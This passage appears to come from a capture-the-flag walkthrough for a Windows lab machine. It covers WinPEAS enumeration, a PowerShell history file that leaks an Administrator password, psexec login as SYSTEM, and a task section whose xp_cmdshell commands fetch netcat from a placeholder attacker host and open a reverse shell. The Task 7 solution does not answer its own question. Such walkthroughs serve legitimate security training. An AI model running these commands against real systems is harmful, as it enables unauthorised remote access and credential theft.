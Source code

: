 Once you have a shell, run WinPEAS:
```cmd
cd C:\Users\sql_svc\Downloads
.\winPEASx64.exe
```

## 5. Finding Privilege Escalation Vectors

WinPEAS will output a lot of information. In this specific CTF, it will help identify that PowerShell history files might contain sensitive information.

Check the PowerShell history file:
```cmd
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

This reveals the Administrator password: `MEGACORP_4dm1n!!`

## 6. Escalating Privileges

Now that you have the Administrator password, you can use it to gain administrative access:

```bash
# On your attack machine
impacket-psexec ARCHETYPE/administrator:MEGACORP_4dm1n!!@10.129.211.161
```

This gives you a SYSTEM-level shell, effectively completing the privilege escalation.

## 7. Capturing the Root Flag

With administrative access, you can now capture the root flag:
```cmd
cd C:\Users\Administrator\Desktop
type root.txt
```

The key insight here is that WinPEAS helps automate the discovery of privilege escalation vectors, but you still need to exploit those vectors manually. In this case, it helps point you toward checking PowerShell history files, which contain the administrator credentials.


### Task 7: What file contains the administrator's password?

**Question:** What file contains the administrator's password?

**Solution:**
```bash
# First, set up a Python HTTP server on the attack machine
python3 -m http.server 80

# Then, set up a netcat listener
nc -lvnp 443

# Using xp_cmdshell, download netcat to the target
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://{ATTACKER_IP}/nc64.exe -outfile nc64.exe"

# Establish a reverse shell
EXEC xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe {ATTACKER_IP} 443"

# Once the shell is established, navigate to the Desktop and read the user flag
cd C:\Users\sql_svc\Desktop
type user.txt
```
